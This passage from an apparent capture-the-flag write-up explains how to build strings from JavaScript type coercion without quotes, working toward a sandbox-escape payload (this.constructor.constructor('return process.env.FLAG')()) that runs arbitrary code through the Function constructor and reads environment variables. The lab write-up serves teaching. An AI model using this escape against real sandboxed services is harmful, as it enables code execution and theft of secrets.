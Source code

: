 From just those characters, I can create strings from some JavaScript keywords that I can get individual letters from. This is necessary because quotes aren't allowed. For example, `[][[]]` (`[][0]` also works in SymCalc.js) produces **`undefined`**. The empty array `[]` has no such property `''` (an empty string, which is what an empty array becomes when [casted to a string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/toString)) or `0`, so it returns `undefined`.

Even though exclamation marks (`!`) aren't allowed in SymCalc.js, equal signs (`=`) and digits are, so I can also get **`true`** from `0 === 0` and **`false`** from `0 === 1`.

To cast these into strings, add them with an empty array:

```js
console.log((0 === 0) + []) // 'true'
```

This is because an empty array is not a number, so JavaScript does string concatenation instead of addition. It casts both operands to a string, and `undefined`, `false`, etc. become `'undefined'`, `'false'`, etc., while the empty array becomes an empty string.

Then, to get individual letters from these strings, you can just index them with numbers: `([][[]] + [])[0]` becomes `(undefined + [])[0]` then `('undefined' + '')[0]`, `'undefined'[0]`, which gets the first letter, `'u'`. SymCalc.js also allows using letters and equal signs, so for convenience and readability, I stored these letters into variables of the same name. Here are all the letters I can get so far:

```js
undef = [][0] + [] // 'undefined'
fals = (0 === 1) + [] // 'false'
tru = (0 === 0) + [] // 'true'

a = fals[1]
d = undef[2]
e = undef[3] // or fals[4] or tru[3]
f = fals[0] // or undef[4]
i = undef[5]
l = fals[2]
n = undef[1]
s = fals[3]
r = tru[1]
t = tru[0]
u = undef[0] // or tru[2]

console.log(a + d + e + f + i + l + n + s + r + t + u) // 'adefilnsrtu'
```

As a reminder, in the [SymCalc.js challenge](#ctf-node-calculator-escape-vm-codegeneration-false), I want to eventually get to

```js
this.constructor.constructor('return process.env.FLAG')()
```

`this` is an empty object, and its constructor is [`Object`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object), which is the superclass for all JavaScript objects. You can get the constructor function of almost any JavaScript object through its [`constructor` property](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor). `Object` is a function, so its constructor is [`Function`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function). [Calling `Function` with a string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function) "casts" it to a function, which lets me run a string as JavaScript code. Finally, the final `()` calls the created function to get the challenge flag, which is stored in `process.env.FLAG`, as hinted by the given code.
